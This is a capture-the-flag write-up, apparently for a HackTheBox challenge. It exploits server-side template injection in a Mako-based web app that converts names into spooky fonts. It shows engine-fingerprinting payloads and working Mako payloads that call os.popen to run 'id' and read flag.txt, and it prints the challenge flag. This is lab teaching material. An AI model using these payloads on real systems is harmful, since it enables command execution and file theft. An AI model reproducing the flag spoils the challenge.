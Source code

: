 
> There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?

&nbsp;

![1](https://github.com/user-attachments/assets/5064c874-6b90-485d-abe7-c820170d8855)

As we can see, the application modifies the name with different fonts.

## SSTI

Let's provide the following input:

```
${9+9}
```

![2](https://github.com/user-attachments/assets/a00100bc-171c-4571-ae71-49d0236fe7a5)

A valid response. This means that the vulnerability is SSTI.

## Identifying the Template Engine

Before we move on to crafting our payload, we need to first identify the template engine being used by the server. 
There are two methods that we can follow.

### Using payloads

This graph from PayloadsAllTheThings gives us the steps to follow in order to identify the engine:

![image](https://github.com/user-attachments/assets/d724e4bc-b269-4b3d-91bb-ff85589dc98c)

Let's begin with the first payload.

```
${7*7}
```

![image](https://github.com/user-attachments/assets/72812659-f60a-4a54-a1c8-ef852881d3d7)

Since the payload returned a valid response, we move to the next payload:

```
a{*comment*}b
```

![image](https://github.com/user-attachments/assets/eca442fd-99d9-4c6f-9862-8d33162b6224)

Not a valid response, let's move to the next one.

```
${"z".join("ab")}
```

![image](https://github.com/user-attachments/assets/4f33f9f4-5592-4f52-ae43-9b6012c6abe7)

This tells us that the server is running a [Mako template engine](https://www.makotemplates.org/).

### Using code review

Alternatively, we can simply just read the code to identify the engine.
Let's start with the config file.

![image](https://github.com/user-attachments/assets/9c41f8c7-7a5d-439b-868e-84262d658fd6)

Looking at the `supervisord.conf` file, we can see that it runs the `/app/run.py` file.

![image](https://github.com/user-attachments/assets/420d32e0-926e-4c2a-a4ac-4878ac43c119)

Then `run.py` imports `app` from `application.main` and runs it on port 1337.

![image](https://github.com/user-attachments/assets/d10a10ad-aad3-4768-8cc1-5b15e72aadb8)

As we can see the `app` object is using Mako template.
The `web` is also being imported from `application.blueprints.routes`.

![image](https://github.com/user-attachments/assets/ad5c9e1b-9c1e-43fe-b406-e98f03440b03)

This script takes the argument passed to the `text` parameter and sends it to the `spookify()` function which is imported from `application.util`.

![image](https://github.com/user-attachments/assets/29efe56f-e608-4d5b-9fc4-2b1fe84ccf8f)

The `change_font()` function simply converts user input into a list and replaces it with it's mapped character from a different font.

### Payload

Since there is no input validation being perfomred, we can run arbitrary commands.

Let's access the `os` module and find our user.

```
${self.module.cache.util.os.popen('id').read()}
```

![3](https://github.com/user-attachments/assets/6ccc5105-a53e-4235-8600-1d9a771e6bf9)

We can now read the `flag.txt` file using a similar payload:

```
${self.module.cache.util.os.popen('cat ../flag.txt').read()}
```

![4](https://github.com/user-attachments/assets/44c793c6-52be-46eb-b976-b97055e59a32)

## Flag

```
HTB{t3mpl4t3_1nj3ct10n_C4n_3x1st5_4nywh343!!}
```
